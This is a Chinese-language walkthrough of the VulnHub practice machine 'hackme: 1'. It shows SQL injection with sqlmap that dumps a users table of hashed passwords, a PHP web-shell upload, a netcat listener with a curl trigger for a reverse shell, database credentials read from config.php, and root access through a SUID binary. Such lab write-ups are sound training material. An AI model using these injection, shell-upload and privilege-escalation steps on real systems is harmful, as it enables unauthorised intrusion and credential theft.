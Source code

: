 # hackme: 1

2025.02.22 https://www.vulnhub.com/entry/hackme-1,330/

这个靶机使用 virtualbox 导入有问题，使用 vmware 可以导入。

## Ip

192.168.10.152

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问首页直接跳转到 http://192.168.10.152/login.php 目前没有用户名和密码。

目录扫描发现http://192.168.10.152/uploads/ 里面有个 test.png 图片，图片没隐写。

到注册页面先注册个用户 http://192.168.10.152/register.php 进入到系统后是一个查询功能，可能存在 SQL 注入，将请求数据包保存到 txt 中，然后使用 sqlmap 跑出数据：

```
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] webapphacking

sqlmap -r req.txt --batch -D webapphacking -T users --dump

+----+--------------+------------+----------------+---------------------------------------------+
| id | name         | user       | address        | pasword                                     |
+----+--------------+------------+----------------+---------------------------------------------+
| 1  | David        | user1      | Newton Circles | 5d41402abc4b2a76b9719d911017c592 (hello)    |
| 2  | Beckham      | user2      | Kensington     | 6269c4f71a55b24bad0f0267d9be5508 (commando) |
| 3  | anonymous    | user3      | anonymous      | 0f359740bd1cda994f8b55330c86d845 (p@ssw0rd) |
| 10 | testismyname | test       | testaddress    | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 11 | superadmin   | superadmin | superadmin     | 2386acb2cf356944177746fc92523983            | --> Uncrackable
| 12 | test1        | test1      | test1          | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
| 13 | testtest     | testtest   | testtest       | 05a671c66aefea124cc08b76ea6d30bb (testtest) |
+----+--------------+------------+----------------+---------------------------------------------+
```

superadmin 的密码在线找到为 Uncrackable ，先用一下这个用户进行登陆，看看有哪些特殊权限，发现登陆后能够上传文件，直接上传 php shell 没有被拦截，并且可以在 http://192.168.10.152/uploads/ 中看到，直接访问，把 shell 反弹的 kali 上：

```
nc -lvnp 8888
curl http://192.168.10.152/uploads/8888.php
```

得到反弹的 shell，/var/www/html 中读取到 config.php 中的数据库配置信息：

```
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'hackme1qaz@WSX');
define('DB_NAME', 'webapphacking');
```

同时发现 1 个用户 hackme，但是上面这个数据库的连接密码不是这个用户的。

发现 suid 程序 /home/legacy/touchmenot，运行后直接得到了 root 权限。

